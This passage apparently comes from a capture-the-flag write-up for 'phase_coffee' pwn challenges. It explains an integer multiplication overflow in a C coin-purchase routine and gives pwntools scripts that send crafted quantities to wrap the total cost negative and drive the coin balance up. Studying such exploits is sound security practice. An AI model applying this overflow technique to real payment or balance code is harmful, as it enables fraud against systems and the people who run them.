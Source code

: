 ```python
def action(mode, answers):
    io.sendlineafter(prompt, str(mode).encode())
    io.recvuntil(b"\n")
    [io.sendline(answer) for answer in answers]

action(2, [b"1", b"-57142"])
io.interactive()
```

### [pwn] phase_coffee_2

Integer multiplication overflow (Arithmetic overflow) in line 50-53.

```c
    if (quantity > 0)
    {
        int total_cost = 35 * quantity;
        int coin_balance_after_purchase = coin_balance - total_cost;
```

We need `coin_balance_after_purchase` to be positive, and quantity to be positive.
However, it is still possible to have total_cost negative if we find quantity where `quantity * 35 > ((1 << 31) - 1)`.
Unassuming 32-bit integer and wrap around, we have `quantity = (total_cost + (1 << 32)) / 35`.

```py
from pwn import *
from struct import pack, unpack

e = context.binary = ELF("./main.v2")

def start(gdbscript="",argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([e.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([e.path] + argv, *a, **kw)

io = start("""b main;continue""")
# io = remote("chals.jellyc.tf", 5001)

prompt = b"Enter a menu selection \n"

def action(mode, answers):
    io.sendlineafter(prompt, str(mode).encode())
    io.recvuntil(b"\n")
    [io.sendline(answer) for answer in answers]

action(2, [b"1", b"122684779"])
io.interactive()
```

### [pwn] phase_coffee_3
